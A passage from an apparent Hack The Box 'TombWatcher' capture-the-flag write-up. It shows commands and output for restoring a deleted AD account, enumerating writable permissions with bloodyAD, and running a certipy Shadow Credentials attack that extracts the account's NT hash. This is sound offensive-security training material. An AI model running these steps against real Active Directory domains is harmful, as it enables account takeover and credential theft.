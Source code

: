 **Command**
```powershell
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```

John has `GenericAll` on `cert_admin` as we can see here:

**Command**
```bash
bloodyAD --host $TARGET -d $DOMAIN -u $USER -p :$HASH get writable
```

**Output**
```html
<SNIP>
distinguishedName: CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

Let's grab some credentials, my go-to when we have `GenericWrite` is always going to be a `Shadow Credentials` attack, other options are: `Kerberoasting` or `Change Password`.

**Command**
```bash
certipy-ad shadow auto -account 'cert_admin' -u $USER -hashes $HASH -target $DOMAIN -dc-ip $IP
```

**Output**
```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'cert_admin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '1e274ad4-7f3f-c585-0d8b-d8bdf8f66a68'
[*] Adding Key Credential with device ID '1e274ad4-7f3f-c585-0d8b-d8bdf8f66a68' to the Key Credentials for 'cert_admin'
[*] Successfully added Key Credential with device ID '1e274ad4-7f3f-c585-0d8b-d8bdf8f66a68' to the Key Credentials for 'cert_admin'
/usr/lib/python3/dist-packages/certipy/lib/certificate.py:519: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  return x509.load_der_x509_certificate(certificate)
[*] Authenticating as 'cert_admin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'cert_admin@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'cert_admin.ccache'
[*] Wrote credential cache to 'cert_admin.ccache'
[*] Trying to retrieve NT hash for 'cert_admin'
[*] Restoring the old Key Credentials for 'cert_admin'
[*] Successfully restored the old Key Credentials for 'cert_admin'
[*] NT hash for 'cert_admin': [REDACTED]
```
